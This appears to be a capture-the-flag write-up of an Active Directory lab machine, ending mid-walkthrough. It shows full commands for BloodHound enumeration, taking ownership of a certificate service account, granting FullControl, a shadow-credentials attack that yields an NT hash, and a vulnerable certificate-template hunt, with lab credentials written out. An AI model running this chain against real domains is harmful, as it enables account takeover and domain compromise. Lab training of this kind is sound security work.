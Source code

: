 Now that we have a user's creds (ryan), we can fire up Bloodhound to get a better picture about user ryan

first add dc01.sequel.htb in /etc/hosts too
```Shell
echo '10.10.11.51 dc01.sequel.htb' | sudo tee -a /etc/hosts
```
then start Bloodhound:
```SHELL
sudo neo4j console
sudo bloodhound-python -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 -ns 10.10.11.51 -c all
```

From the graph, we can see that ryan has **WriteOwner** permission towards user CA_SVC, where CA_SVC is the certificate issuer. So

{ ryan }-----( WriteOwner )----->{ CA_SVC }

That means, that we can set the owner of CA_SVC to ryan!
```shell
bloodyAD --host '10.10.11.51' -d 'EscapeTwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
```

Lets now give ryan full control
```shell
impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"
```

We can now obtain shadow creds and the NThash of the ca_svc user:
```Shell
certipy-ad shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
```
and we got the NThash ca_svc : (which will be usefull later on)
```
3b181b914e7a9d5508ea1e20bc2b7fce
```

Now we can find vulnerable certificate templates, BECAUSE as ryan we are the OWNER of ca_svc which is the certificate issuer/publisher. 

```shell
certipy-ad find -vulnerable -u ryan@sequel.htb -p "WqSZAF6CysDQbGb3" -dc-ip 10.10.11.51
```
From this command, i found this vulnerable cert template: DunderMifflinAuthentication enabled, which allows Domain Admins and Enterprise Admins to request for certificates

So the template **DunderMifflinAuthentication** allows certificate publisher ca_svc (which ryan fully control thanks to above commands) to get a certificate with high privileges using below command:
first
```shell
KRB5CCNAME=$PWD/ca_svc.ccache 
```
then
```
certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
```
